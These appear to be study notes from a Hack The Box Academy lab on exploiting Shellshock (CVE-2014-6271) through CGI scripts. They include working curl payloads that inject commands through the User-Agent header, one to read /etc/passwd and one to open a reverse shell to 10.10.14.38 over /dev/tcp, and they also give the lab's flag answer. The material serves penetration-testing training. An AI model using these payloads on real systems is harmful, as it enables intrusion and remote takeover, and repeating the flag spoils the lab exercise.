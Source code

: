 # CGI - Shellshock

* CGI is middleware between web servers, external databases, and information sources.
* CGI scripts and programs are kept in the `/CGI-bin` directory
* often used for guest books, forms (email, feedback, registration), mailing lists, blogs, etc.
* can be written very simply to perform advanced tasks much easier than writing them using server-side programming languages.

CGI scripts/applications are typically used for a few reasons:

* If the webserver must dynamically interact with the user
* When a user submits data to the web server by filling out a form. The CGI application would process the data and return the result to the user via the webserver

![image](https://academy.hackthebox.com/storage/modules/113/cgi.gif)

### Shellshock via CGI

Shellshock vulnerability ([CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)) was discovered in 2014, is relatively simple to exploit, and can still be found in the wild

It is a security flaw in the Bash shell (GNU Bash up until version 4.3) that can be used to execute unintentional commands using environment variables.

Shellshock vulnerability allows an attacker to exploit old versions of Bash that save environment variables incorrectly.

Typically when saving a function as a variable, the shell function will **stop** where it is defined to end by the creator. Vulnerable versions of Bash will allow an attacker to execute operating system commands that are included after a function stored inside an environment variable.

```bash
env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"bas
```

When the above variable is assign `y='() { :;};`  will be interpret as a function. when it is imported, it will execute the command `echo vulnerable-shellshock` if the version of Bash is vulnerable.

If the system is not vulnerable, only `"not vulnerable"` will be printed.

```bash
env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"

not vulnerable
```

### Example

**Enumeration - Gobuster**

```shell-session
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi

/access.cgi           (Status: 200) [Size: 0]
```

cURL the script to see the output

```shell-session
curl -i http://10.129.204.231/cgi-bin/access.cgi

HTTP/1.1 200 OK
Date: Thu, 23 Mar 2023 13:28:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html
```

> No output

**Confirming the Vulnerability**

```shell-session
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```

> if works the /etc/passwd will be printed

**Exploitation to Reverse Shell Access**

```shell-session
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```

```shell-session
sudo nc -lvnp 7777
```

## Assessment

**Enumerate the host, exploit the Shellshock vulnerability, and submit the contents of the flag.txt file located on the server.**

```
gobuster dir -u http://10.129.205.27/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.205.27/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              cgi
[+] Timeout:                 10s
===============================================================
2023/07/14 00:12:21 Starting gobuster in directory enumeration mode
===============================================================
/access.cgi           (Status: 200) [Size: 0]
```

```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.205.27/cgi-bin/access.cgi

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
<SNIP>
```

Is vulnerable to shell shock, then get a reverse shell.

<figure><img src="../../../.gitbook/assets/image (20) (1).png" alt=""><figcaption><p>Sh3ll_Sh0cK_123</p></figcaption></figure>

